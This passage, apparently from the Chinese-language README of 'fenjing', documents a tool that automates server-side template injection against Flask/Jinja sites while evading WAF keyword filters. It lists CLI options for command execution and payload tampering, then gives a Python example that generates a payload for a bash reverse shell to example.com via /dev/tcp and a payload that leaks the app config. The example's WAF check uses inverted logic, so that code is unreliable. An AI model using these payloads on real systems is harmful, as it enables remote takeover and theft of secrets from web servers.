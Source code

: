 ```
  -e, --exec-cmd TEXT             成功后执行的shell指令，不填则成功后进入交互模式
  --interval FLOAT                每次请求的间隔
  --detect-mode TEXT              分析模式，可为accurate或fast
  --replaced-keyword-strategy TEXT
                                  WAF替换关键字时的策略，可为avoid/ignore/doubletapping
  --environment TEXT              模板的执行环境，默认为flask的render_template_string函数
  --user-agent TEXT               请求时使用的User Agent
  --header TEXT                   请求时使用的Headers
  --cookies TEXT                  请求时使用的Cookie
  --extra-params TEXT             请求时的额外GET参数，如a=1&b=2
  --extra-data TEXT               请求时的额外POST参数，如a=1&b=2
  --proxy TEXT                    请求时使用的代理
  --tamper-cmd TEXT               在发送payload之前进行编码的命令，默认不进行额外操作
  --help                          Show this message and exit.

Usage: python -m fenjing webui [OPTIONS]

  启动webui

Options:
  -h, --host TEXT     需要监听的host, 默认为127.0.0.1
  -p, --port INTEGER  需要监听的端口, 默认为11451
  --help              Show this message and exit.
```

### 作为python库使用

参考[example.py](example.py)

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    print(f"{config_payload=}")

```
